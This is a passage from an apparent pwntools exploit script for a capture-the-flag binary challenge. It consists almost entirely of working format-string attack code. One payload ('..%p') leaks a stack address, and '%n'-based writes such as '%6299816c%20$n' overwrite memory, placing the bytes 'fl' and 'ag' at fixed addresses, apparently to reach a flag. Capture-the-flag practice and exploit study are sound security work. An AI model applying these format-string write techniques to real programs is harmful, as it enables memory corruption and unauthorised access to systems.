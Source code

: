```python
    P.sendline(str(strength).encode())


def leak_stack():
    name(b'..%p')
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    P.recvuntil(b'..')
    leak_stack = int(P.recvline().strip(), 16)
    return leak_stack


def get_turn():
    P.sendlineafter(b'n)', b'y')
    name(b'%11$naaa' + p64(turn_stack))
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)


def vuln(payload):
    P.sendlineafter(b'n)', b'y')
    name(payload)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)


##############################
##### FINAL EXPLOITATION #####
##############################

leak_stack = leak_stack()
turn_stack = leak_stack + 0x26b0  # 0x80
get_turn()
# write 0x6020a8 to stack
vuln(b'%6299816c%20$n')
get_turn()

# write 'fl' to 0x6020a8
vuln(b'%27750c%52$n')
get_turn()

# write 0x6020b0 to stack
vuln(b'%6299818c%20$n')
get_turn()

# write 'ag' to 0x6020b0
vuln(b'%26465c%52$n')
```